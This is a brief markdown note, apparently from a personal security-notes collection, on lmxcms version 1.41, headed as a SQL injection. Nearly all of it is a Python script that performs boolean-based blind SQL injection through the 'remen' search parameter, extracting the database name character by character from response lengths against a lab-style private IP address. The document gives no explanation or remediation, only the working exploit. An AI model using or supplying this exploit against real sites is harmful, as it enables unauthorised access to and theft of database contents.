

### lmxcms（梦想）

```
版本信息：1.41
```

#### sql注入

```python
import requests

url = "http://192.168.81.195:50006/?m=search&keywords=b&mid=1&remen=1 or (if(ascii(substr(database(),{},1))={},1,0))--+"
sjk = ""

for i in range(1, 7):
    for j in range(80, 180):
        cl = url.format(i, hex(j))
        res = requests.get(cl)
        if len(res.text) > 6000:
            sjk += chr(j)
            print(sjk)
```



